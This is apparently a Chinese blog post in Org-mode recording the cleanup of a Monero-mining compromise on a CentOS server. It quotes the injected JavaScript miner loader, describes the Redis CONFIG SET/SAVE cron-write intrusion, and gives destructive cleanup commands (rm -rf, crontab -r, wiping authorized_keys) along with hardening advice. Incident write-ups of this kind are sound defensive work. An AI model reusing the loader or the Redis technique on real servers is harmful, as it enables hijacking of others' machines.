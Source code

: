 #+TITLE:  XMR 恶意挖矿脚本处理笔记 
#+AUTHOR:    zrg
#+EMAIL:     zrg1390556487@gmail.com
#+LANGUAGE:  cn
#+OPTIONS:   H:3 num:nil toc:nil \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:t skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+INFOJS_OPT: view:plain toc:t ltoc:t mouse:underline buttons:0 path:http://cs3.swfc.edu.cn/~20121156044/.org-info.js />
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://cs3.swfu.edu.cn/~20121156044/.org-manual.css" />
#+EXPORT_SELECT_TAGS: export
#+HTML_HEAD_EXTRA: <style>body {font-size:14pt} code {font-weight:bold;font-size:12px; color:darkblue}</style>
#+EXPORT_EXCLUDE_TAGS: noexport
#+LINK_UP:   
#+LINK_HOME: 
#+XSLT: 

#+STARTUP: showall indent
#+STARTUP: hidestars
#+BEGIN_EXPORT HTML
---
layout: post
title: XMR 恶意挖矿脚本处理笔记
author: zrg
description:   
excerpt: 
comments: false
categories: 
- linux
tags:
- 比特币
- 恶意挖矿
- 病毒
---
#+END_EXPORT

# (setq org-export-html-use-infojs nil)
感谢您阅读此文，如果您发现任何错误，请发邮件至 zrg1390556487@gmail.com，谢谢！
# (setq org-export-html-style nil)

* 事件描述
** 概况
: 服务器安装系统为 CentOS 7，服务器用户一直采用密钥登录，通过用户登入攻击的可能性几乎为零。
: 服务器上所有站点使用宝塔面板面板管理，所以可能性是通过攻破了宝塔面板进入，然后注入恶意挖矿脚本的。
: 网站无法加载，会出现浏览器卡死的情况。
** 表象
: 下面陈述被攻击后的表象：
+ 服务器资源被大量占用，资源占用率飙升；
+ 服务器所有JS文件被篡改，向输出页面增加了一个script标签（document.write('<script src="http://t.cn/EvlonFh"></script><script>OMINEId("e02cf4ce91284dab9bc3fc4cc2a65e28","-1")</script>');）
+ 网站无法加载，会出现浏览器卡死的情况
* 问题排查及解决
** 排查
: 1. 访问服务器上运行的站点（包括宝塔面板），F12，发现不停访问一个wss的地址（wss://xmr.omine.org:8181/），并且很慢。
: 2. 搜索这个地址，得知此为 XMR 恶意挖矿脚本。
: 3. 查看系统任务计划，发现定期恶意脚本的计划内容
: # crontab -l
: 4. 由于redis没有安全配置，黑客利用redis安全漏洞入侵了服务器。
: 攻击者通过redis命令 config set与save完成入侵过程.使用redis-cli -h <ip> <port> 登录服务redis-server，
: 将redis的数据文件改到/var/spool/cron/root文件中，再通save 命令将定时任务shell脚本写入到/var/spool/cron/root 中，
: 完成定时执行shell脚本，来实现提权及其它操作。
** 解决
: 1. 整理清理脚本
#+NAME: 清理脚本
#+BEGIN_SRC shell
# 先关掉redis端口
iptables -A INPUT -p tcp --dport 6379 -j DROP
# 清理定时任务
crontab -r
# 清除redis key Back1 Back3 Back3
redis-cli -h xxx.xxx.xxx.xxx -x del Back1
redis-cli -h xxx.xxx.xxx.xxx -x del Back2
redis-cli -h xxx.xxx.xxx.xxx -x del Back3
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dbfilename dump.rdb
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dir /tmp
redis-cli -h xxx.xxx.xxx.xxx -x save
# 清理运行脚本
kill -9 `ps -ef|grep shz.sh|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep zigw|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep cmd|grep -v grep|awk '{print $2}'`
chattr -i /etc/zigw
chattr -i /etc/shz.sh
chattr -i /tmp/zigw
chattr -i /tmp/shz.sh
rm -rf /etc/shz.sh
rm -rf /etc/gmbpr2
rm -rf /etc/zigw
rm -rf /tmp/zigw
rm -rf /tmp/shz.sh
rm -rf ~/.cmd
 
# 清理SSH免登录信息
cat /dev/null> ~/.ssh/authorized_keys
# 清理js脚本
find / -name '*.js'|xargs grep -L f4ce9|xargs sed -i '$d'
mv /usr/bin/get /usr/bin/wget
mv /usr/bin/url /usr/bin/curl
#+END_SRC

#+NAME: 附个清理的其它方式脚本
#+BEGIN_SRC shell
#!/bin/bash
# By xzeu
# http://www.xzeu.com
# Email: admin#xzeu.com
# Filename: clearlink.sh
 
#Begin
find / -type f -name '*.js' |xargs fgrep -s -l "e02cf4ce91284dab9bc3fc4cc2a65e28"|xargs ls -l |awk '{print $9}'>jsfile.txt
for file in `cat ~/jsfile.txt`;
do
  echo $file
  # sed -i '/e02cf4ce91284dab9bc3fc4cc2a65e28/d' $file
  # cp $file ${file}.bad
done
 
exit 0
#END
#+END_SRC

: 2. 恢复服务器中的js文件(其中grep的参数为小写的L)
: 方法一：删除站点所有感染 js 文件，从代码仓库pull，重新上传部署。
: 方法二：# find / -name '*.js' | xargs grep -l f4ce9 | xargs sed -i '/f4ce9/d'
** 预防
: 1. 限制内网访问，或者只限制本机访问
: 只监听内网的IP，然后在iptables里面限制访问的主机：在/etc/redis/redis.conf中配置如下：
: bind 192.168.1.100
: 如果服务只需要本机访问就直接监听127.0.0.1的回环地址就可以了。

: 2. 设置防火墙
: 如果需要其他机器访问，或者设置了slave模式，那就记得加上相应的防火墙设置，命令如下：
: iptables -A INPUT -s 192.168.1.100/32 -p tcp --dport 6379 -j ACCEPT

: 3. 禁止root用户启动redis
: 使用root权限去运行网络服务是比较有风险的（nginx和apache都是有独立的work用户，而redis没有）。
: edis crackit 漏洞就是利用root用户的权限来替换或者增加authorized_keys，来获取root登录权限的。
: 使用root切换到redis用户启动服务:
: useradd -s /sbin/nolog -M redissetsid sudo -u redis /usr/bin/redis-server /etc/redis/redis.conf

: 4. 限制redis文件目录访问权限
: 设置redis的主目录权限为700,如果redis配置文件独立于redis主目录,权限修过为600,因为redis密码明文存储在配置文件中。

: 5. 避免使用熟知的端口,降低被初级扫描的风险
: 在/etc/redis/redis.conf中配置如下：
: 找到port 6379这行，把6379改为9999，记得iptables对应的端口要修改

: 6. 开启redis密码认证,并设置高复杂度密码
: redis在redis.conf配置文件中，设置配置项requirepass， 开户密码认证。
: redis因查询效率高，auth这种命令每秒能处理10w次以上，简单的redis的密码极容易为攻击者暴破。 

: 7. 禁用或者重命名危险命令
: edis crackit漏洞就利用config/save两个命令完成攻击 。 因redis无用户权限限制，建议危险的命令，
: 使用rename配置项进行禁用或重命名，这样外部不了解重命名规则攻击者，就不能执行这类命令。涉及到的命令：
: FLUSHDB, FLUSHALL, KEYS, PEXPIRE, DEL, CONFIG, SHUTDOWN, BGREWRITEAOF, BGSAVE, SAVE, SPOP, SREM, RENAME, DEBUG, EVAL`
: 以下示例：redis.config文件禁用FLUSHDB、FLUSHALL两个命令；重命名CONFIG、SHUTDOWN命令，添加一个特殊的后缀。
: 这样redis启动后，只能运行CONFIG_b9fc8327c4dee7命令，不能执行CONFIG命令。
: rename-command CONFIG CONFIG_des327c4dee7dfsf
: rename-command SHUTDOWN SHUTDOWN_des327c4dee7dfsf
: rename-command FLUSHDB ""
: rename-command FLUSHALL ""
: 上述配置将config，flushdb，flushall设置为了空，即禁用该命令，我们也可以命名为一些攻击者难以猜测，
: 我们自己却容易记住的的名字。保存之后，执行/etc/init.d/redis-server restart 重启生效。
* 参考
+ [[https://www.cnblogs.com/Rebybyx/p/9913779.html][XMR恶意挖矿脚本处理笔记]]
+ [[https://www.freebuf.com/articles/system/186743.html][XMR恶意挖矿案例简析]]
+ [[https://www.xzeu.com/index.php/archives/120/][Redis未授权访问缺陷,服务器变矿机]]
